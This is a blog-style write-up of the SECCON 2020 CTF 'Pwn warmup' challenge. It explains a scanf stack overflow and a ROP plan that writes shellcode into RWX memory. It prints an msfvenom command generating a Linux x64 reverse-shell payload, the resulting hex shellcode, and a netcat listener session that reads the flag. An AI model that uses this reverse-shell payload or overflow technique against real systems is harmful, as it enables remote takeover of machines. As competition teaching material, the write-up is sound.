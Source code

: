 # SECCON CTF 2020 - Pwn warmup

I solved this pwn challenge during SECCON 2020 CTF competition. Challenge contained a binary with the following C code:

```c
#include <unistd.h>
#include <stdio.h>

int main(void) {
  char buf[0x20];
  puts("Welcome to Pwn Warmup!");
  scanf("%s", buf);
  fclose(stdout);
  fclose(stderr);
}

__attribute__((constructor))
void setup(void) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
  alarm(60);
}
```

## Problem

The challenge is pretty straightforward as there is usage of the `scanf` function - we will get to that in a second. Since this is a warmup task, this most probably means that NX is not enabled, or more specifically - there might be sections in memory that we can write and execute at the same time.

I have verified this with checksec and checked which memory region we can write and execute with gdb:

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/l/Downloads/pwarmup/chall
0x00600000         0x00601000         rwxp	/home/l/Downloads/pwarmup/chall
0x00007ffff7e02000 0x00007ffff7fb8000 r-xp	/usr/lib/x86_64-linux-gnu/libc-2.28.so
0x00007ffff7fb8000 0x00007ffff7fb9000 ---p	/usr/lib/x86_64-linux-gnu/libc-2.28.so
0x00007ffff7fb9000 0x00007ffff7fbd000 r-xp	/usr/lib/x86_64-linux-gnu/libc-2.28.so
0x00007ffff7fbd000 0x00007ffff7fbf000 rwxp	/usr/lib/x86_64-linux-gnu/libc-2.28.so
0x00007ffff7fbf000 0x00007ffff7fc5000 rwxp	mapped
0x00007ffff7fd0000 0x00007ffff7fd3000 r--p	[vvar]
0x00007ffff7fd3000 0x00007ffff7fd5000 r-xp	[vdso]
0x00007ffff7fd5000 0x00007ffff7ffc000 r-xp	/usr/lib/x86_64-linux-gnu/ld-2.28.so
0x00007ffff7ffc000 0x00007ffff7ffd000 r-xp	/usr/lib/x86_64-linux-gnu/ld-2.28.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rwxp	/usr/lib/x86_64-linux-gnu/ld-2.28.so
0x00007ffff7ffe000 0x00007ffff7fff000 rwxp	mapped
0x00007ffffffde000 0x00007ffffffff000 rwxp	[stack]
```

I kind of expected this. There are W^X sections available to us, in particular we can write and execute memory from `0x00600000` to `0x00601000`. Now back to the `scanf` function.

The way that `scanf` works is it writes user input to memory specified as the second parameter. From the code:

```
scanf("%s", buf);
```

`scanf` writes a char array (bytes) into the `buf` variable which is memory that `buf` points to with no limits, meaning buffer overflow. First thing that would come to mind here is that we can overflow the buffer, overwrite instruction pointer with `jmp esp` or `jmp rsp` and then continue with our shellcode, but this is not the case here.

If we think for a second how the `scanf` function works, we can utilize the `scanf` function to write shellcode to a memory region that we specify after we have control of the instruction pointer.

## ROP chain

So, the solution to the problem is basically straightforward:
- overflow the buffer
- craft a gadget that will call `scanf("%s", 0x00600000)`
- `scanf` executes, so input your shellcode to it
- redirect execution to `0x00600000`

I managed to craft this fairly quickly but had issues with shellcode that executes `/bin/sh` as I could never attach to the shell but I saw it executing.

After few tries, I decided to just use the reverse shell shellcode from metasploit:

```
$ msfvenom -p linux/x64/shell_reverse_tcp -f hex LHOST=127.0.0.1 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of hex file: 148 bytes
6a2958996a025f6a015e0f05489748b90200115c7f000001514889e66a105a6a2a580f056a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f736800534889e752574889e60f05
```

After running the solution script, I have obtained the shell:

```
$ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on ...
ls
chall
flag-e6951df0400add6a6b5be11f25b80cea.txt
redir.sh
cat flag*
SECCON{1t's_g3tt1ng_c0ld_1n_j4p4n_d0n't_f0rget_t0_w4rm-up}
```
